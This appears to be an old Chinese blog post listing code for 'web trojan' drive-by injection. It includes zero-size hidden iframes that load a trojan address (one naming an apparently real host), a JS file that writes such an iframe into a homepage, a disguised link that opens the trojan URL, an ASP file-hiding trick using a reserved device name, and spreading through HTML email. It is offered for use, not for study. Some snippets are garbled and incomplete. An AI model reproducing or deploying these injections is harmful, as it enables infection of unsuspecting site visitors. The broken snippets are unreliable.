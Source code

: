```yaml
---
title: 各种网页木马挂马的代码
description: 1、嵌入网页以下是引用片段：2、PHP网页挂马以下是引用片段：..........................................................................
date: 2007-12-10 20:52:32
category: 杂七杂八
tags: ['脚本Script', '木马', '源码']
post_id: 286
alias: Web-Trojan-code
ViewNums: 4623
---
```

**1、嵌入网页**
以下是引用片段：
```html
<iframe src="http://网页木马地址" width="0" height="0" border="0"></iframe>
```
**2、PHP网页挂马**
以下是引用片段：
```html
<iframe src=http://qq.415358518.com width=0 height=0></iframe>
```
**3、图片木马**
以下是引用片段：
```html
<html>
<body>
<iframe src=网页木马地址 width=0 height=0></iframe>
<img src=图片地址></img>
</body>
</html>
**4、邮件木马**
以下是引用片段：
<html>
<body>
<iframe src=网页木马地址 width=0 height=0></iframe>
</body>
</html>
```
**5、flash木马**
http://网页木马地址 插入木马地址
width=10 height=10", "GET" 宽度和高度，方式
后面的照添，更改木马地址就可以了。

**6、做123.JS文件木马**
以下是引用片段：
```html
document.write("<iframe src=就是你的网页木马地址 width=0 height=0></iframe>")
<script language=javascript src=123.js></script>
```
再把这段代码写到 主页上！

**7、不点出现连接的木马**
以下是引用片段：
```html
<a href="http://www.163.com(迷惑的超级连接地址，显示这个地址指向木马地址)" > 页面要显示的内容 </a>
<SCRIPT Language="JavaScript">
function www_163_com ()
{
var url="你的木马地址";
open(url,"NewWindow","toolbar=no,location=no,directories=no,status=no,menubar=no,scrollbars=no,resizable=no,

copyhistory=yes,width=800,height=600,left=10,top=10");
}
</SCRIPT>
```
**8、asp木马超级隐藏**
```asp
copy C:Inetpubwwwrootmm11.htm \.C:Inetpubwwwrootmmcom1.htm
```
**9、利用邮箱传播木马**
这里主要点HTML格式----在里面写上以下这段代码:
```html
<body > </body>
```